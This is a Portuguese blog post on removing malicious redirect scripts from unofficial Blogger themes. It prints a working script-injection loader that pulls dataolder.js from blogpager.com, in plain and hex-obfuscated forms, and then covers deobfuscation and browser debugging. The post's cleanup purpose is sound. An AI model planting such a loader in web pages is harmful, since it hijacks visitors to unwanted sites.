 ```yaml
---
title: Blogger redirecionando para o megalink.xyz
date: 2023-07-02
author: M4rQu1Nh0S
tags: [blogger, redirecionando, sozinho, megalink.xyz, automaticamente]
subtitle: Saiba como resolver esse redirecionamento indesejado
categories: [dicas e tutoriais, blogger]
comments: true
#cover-img: /assets/img/path.jpg
thumbnail-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
share-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
layout: post
---
```


<p align='center'><img alt='Blogger logo' src="https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png"/></p>
Um problema que pode acontecer ao utilizar temas não oficiais do blogger, alguns temas possuem códigos que ocasionalmente faz com que as visitas no seu blog sejam automaticamente redirecionadas para um outro site. Tal problema que comecei a ter recentemente em um template do blogger que já vinha utilizando a muito tempo atrás.

Enfim, indo direto ao ponto, no meu caso o problema foi causado por 2 scripts que estavam no html do blog

	//commentid.com/dataolder.js

e

	//blogpager.com/dataolder.js

Na grande maioria das vezes, com esses dois scripts, seu blog é redirecionado para o site https:// **link.megalink.xyz**]

Portanto basta editar o código html do blogger e remover todas as linhas que contem esse **dataolder.js**

**Conteúdo**

1. [Pode acontecer desse script estar “disfarçado” no html](#pode-acontecer-desse-script-estar-disfarçado-no-html)
2. [“DesOfuscando” um código](#desofuscando-um-código)
3. [Como encontrar o script no html do blogger](#como-encontrar-o-script-no-html-do-blogger)
4. [Usando o debugger do browser para diagnóstico](#usando-o-debugger-do-browser-para-diagnóstico)
5. [Observações sobre o problema](#observações-sobre-o-problema)

## Pode acontecer desse script estar “disfarçado” no html
Existe uma espécie de codificação em linguagens de programação que “disfarçam” que podemos chamar de **ofuscador**.

O Ofuscador faz com que um código como esse:

```
<script type='text/javascript'>
_wau.push(["small", "00wy9zw057rt", "pd4"]);
(function () {
  var rahja = document.createElement("script");
  rahja.async = true;
  rahja.src = "//blogpager.com/dataolder.js";
  document.getElementsByTagName("head")[0].appendChild(rahja);
}());
</script>
```

Após ofuscado, o código fica assim:

```
<script type='text/javascript'>
var _0x603d=["\x73\x6D\x61\x6C\x6C","\x30\x30\x77\x79\x39\x7A\x77\x30\x35\x37\x72\x74","\x70\x64\x34","\x70\x75\x73\x68","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x73\x79\x6E\x63","\x73\x72\x63","\x2F\x2F\x62\x6C\x6F\x67\x70\x61\x67\x65\x72\x2E\x63\x6F\x6D\x2F\x64\x61\x74\x61\x6F\x6C\x64\x65\x72\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x68\x65\x61\x64","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65"];var _wau=_wau|| [];_wau[_0x603d[3]]([_0x603d[0],_0x603d[1],_0x603d[2]]);(function(){var _0xcefcx2=document[_0x603d[5]](_0x603d[4]);_0xcefcx2[_0x603d[6]]= true;_0xcefcx2[_0x603d[7]]= _0x603d[8];document[_0x603d[11]](_0x603d[10])[0][_0x603d[9]](_0xcefcx2)})()
</script>
```

Uma vez que o código esteja ofuscado, você não vai conseguir encontrar o script e daí não conseguirá acabar com a fonte dos redirecionamentos.

## “DesOfuscando” um código

Felizmente existem ferramentas que ajudam a desofuscar, pelo menos parcialmente, um código que está ofuscado.

Vou recomendar alguns exemplos abaixo:

-   [**https://www.seosniffer.com/javascript-deobfuscator**](https://www.seosniffer.com/javascript-deobfuscator)
-   [https://deo.sigr.io/](https://deo.sigr.io/)
-   [https://www.dcode.fr/javascript-unobfuscator](https://www.dcode.fr/javascript-unobfuscator)
-   [https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii](https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii)
    (para traduzir alguns caracteres xml para html e daí desofuscar)

## Como encontrar o script no html do blogger
Agora que já expliquei como identificar um código ofuscado e também ja falei que o script que faz os redirecionamentos (dataolder.js), basta editar o html do blogger.

Abra o painel do blogger e vá nas opções de editar o html, e então use o Ctrl + F e procure por:

	<script type='text/javascript'>

No meio dos resultados você vai encontrar alguns códigos ofuscados, basta pega-los e desofusca-los e observar se tem algo no meio desse código alguma função de redirecionamento.

Ao encontrar basta remover, mas atenção, nem todo código ofuscado vai ter um script de redirecionamento! Alguns autores ofuscam o código para proteger o seu tema de plágio e por isso alguns códigos ofuscados podem apenas conter funções especificas do tema, como animações, estilos de fontes e cores, etc.

## Usando o debugger do browser para diagnóstico.
Todo browser ou a maioria tem as ferramentas de desenvolvedor, no caso do Chrome ele aparece ao pressionar **F12**.

Dá pra usar essa ferramenta para ajudar a encontrar a fonte dos redirecionamentos que está acontecendo no seu blogger.

Basta apertar F12 e seguir os procedimentos:

- Habilitar a visualização mobile
- Na opção **Network**, marcar as opções **Preserve Log** e **Block Requests**
- Na lista **Name** vai haver várias solicitações, ao clicar em uma da lista, observe a guia **Initiator**, ela informa em qual parte do site saiu a solicitação, que no caso é de redirecionamento.

<p align='center'><img alt='Screenshot mostrando os procedimentos em ordem numerica' src="https://cdn-images-1.medium.com/max/800/1*vK9hdmPcOOm8Z-3bnHtzbA.png"/></p>

## Observações sobre o problema
Curiosamente esse tipo de problema acontece principalmente quando o blog é aberto por um browser mobile ou em modo mobile, em modo computador o redirecionamento não acontece todas as vezes.

Pelo visto os scripts de redirecionamento foram programas para atuarem com mais tendencia em celulares, por tanto quando for investigar as fontes do redirecionamento que está acontecendo no seu blog, experimente faze-lo com o blog aberto em modo mobile.

